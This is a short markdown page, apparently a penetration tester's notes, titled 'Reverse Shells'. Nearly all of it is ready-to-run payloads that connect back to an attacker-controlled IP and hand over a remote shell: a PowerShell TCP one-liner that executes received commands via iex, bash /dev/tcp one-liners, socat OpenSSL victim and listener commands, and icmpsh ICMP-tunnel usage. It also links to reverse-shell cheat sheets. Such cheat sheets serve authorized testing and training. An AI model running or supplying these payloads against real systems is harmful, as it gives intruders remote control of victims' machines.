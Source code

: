 ```yaml
---
layout: page
title: "# Reverse Shells"
permalink: /shell/reverse_shells/
---
```


# Reverse Shells

## Powershell:

```powershell
#Oneliner:
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i =$stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Bash:

```python
bash -i >& /dev/tcp/192.168.119.191/8888 0>&1

#OR:

0<&196;exec 196<>/dev/tcp/10.0.0.1/4242; sh <&196 >&196 2>&196
```

## SoCat:

```bash
#Reverse Secure:

#Victim:
$socat - OPENSSL:192.168.73.144:8888,verify=0

#Attacker:
$socat -d -d OPENSSL-LISTEN:8888,cert=/opt/Certificates/shell.pem,verify=0 STDOUT

#Creating Certificate:
$openssl req -newkey rsa:2048 -nodes -keyout shell.key -x509 -days 364 -out shell.crt

$cat shell.key shell.crt > shell.pem
```

## ICMP (Windows) based shells:

```bash
#Download ICMPSH:
https://github.com/bdamele/icmpsh
#Examples:
https://www.cynet.com/attack-techniques-hands-on/how-hackers-use-icmp-tunneling-to-own-your-network/
#Attacker:
#Before running icmpsh, we will need to prevent the kernel from replying to ICMP echo requests. Most ICMP tunneling tools will implement mechanisms to synchronize the data stream between the two machines, and the kernel replies may cause unexpected results.
#Add to: /etc/sysctl.conf
net.ipv4.icmp_echo_ignore_all=1
#Reload the settings:
sudo sysctl --system
#Run Server
#sudo ./icmpsh_m.py %ATTACKERIP% %VICTIMIP% <- The Victim IP waits for ICMP Requests from the server
sudo ./icmpsh_m.py 192.168.178.178 192.168.178.100
#Run Client (Windows:
icmpsh.exe -t 192.168.178.178
#A reverse shell is made and RCE is possible. Note - this traffic is NOT encrypted!

ICMPTunnel:
https://github.com/DhavalKapil/icmptunnel

PTunnelNG:
https://github.com/lnslbrty/ptunnel-ng

```

## Other Resources:

- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology and Resources/Reverse Shell Cheatsheet.md#bash-tcp](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
